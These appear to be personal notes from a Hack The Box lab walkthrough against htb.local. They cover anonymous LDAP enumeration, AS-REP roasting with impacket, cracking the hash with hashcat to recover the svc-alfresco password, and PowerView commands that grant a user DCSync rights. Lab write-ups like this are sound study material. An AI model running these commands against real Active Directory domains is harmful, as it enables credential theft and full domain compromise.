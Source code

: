 - No webservice or accessible shares (anonymous login) was found

# LDAP Enumeration
---
- **==If Anonymous LDAP Binds Are Allowed==**, we can use `ldapsearch`:
	`ldapsearch -x -H ldap://<DC_IP> -b "dc=domain,dc=com"`
- [[Finding Accounts using LDAP]]
- ![[Pasted image 20250424224316.png]]

# ASREP-Roasting
---
- Having found some users, we can try `ASREP-ROASTING`to get hashes of users with **Kerberos Pre-Auth disabled**:
	- `impacket-GetNPUsers htb.local/ -usersfile users.txt -dc-ip 10.10.10.161 -no-pass -format john`
	- ![[Pasted image 20250424224438.png]]
- A service account `svc-alfresco` (seems) hash is found, let's crack it
	- `hashcat svc-alfresco_hash.txt /usr/share/wordlists/rockyou.txt`
	- ![[Pasted image 20250424224536.png]]

	- `svc-alfresco`: `s3rvice`



```
$SecPassword = ConvertTo-SecureString 'password1' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\hacker', $SecPassword)
```

```
Add-DomainObjectAcl -Credential $Cred -TargetIdentity htb.local -Rights DCSync
```

Add-ObjectACL -PrincipalIdentity hacker -Credential $Cred -Rights DCSync